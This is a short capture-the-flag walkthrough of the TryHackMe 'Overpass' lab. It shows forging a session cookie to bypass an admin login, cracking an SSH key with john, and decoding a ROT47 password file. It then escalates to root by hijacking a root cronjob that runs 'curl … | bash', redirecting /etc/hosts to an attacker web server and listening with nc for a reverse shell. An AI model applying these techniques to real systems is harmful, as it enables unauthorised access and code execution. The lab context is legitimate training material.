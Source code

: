 ```yaml
---
title: Overpass
description: 'Exploiting client side "sessionToken" and exploting a cronjon and bad permissions on the hosts file'
pubDate: 2020-12-27
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/2048656e072dd7caffe455ae2d44b65f.png'
---
```


## FOOTHOLD / USER
    - /admin
        - /login.js
            - see the `else`, this needs a cookie called `SessionToken` with or without a value

    - /usr/share/john/ssh2john.py james.rsa.enc > james.rsa.hash
    - john --wordlist=/usr/share/wordlists/rockyou.txt james.rsa.hash
        james:james13
    - ssh -i james.rsa.enc james@10.10.44.68 <- james13


    - cat .overpass
        - ,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
        - Decrypt with ROT47 with `94 printable ASCII characters from ! (33) to ~ (126) (ie: Rot47)` (https://www.dcode.fr/rot-cipher)
            - [{"name":"System","pass":"saydrawnlyingpicture"}]



## ROOT
    - linpeas.sh
        - * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
        - writable by me: /etc/hosts
    - change /etc/hosts -> <my tun0 IP> to overpass.thm
    - run webserver at port 80: sudo python3 -m http.server 80
    - listen `nc -lvnp 4444`
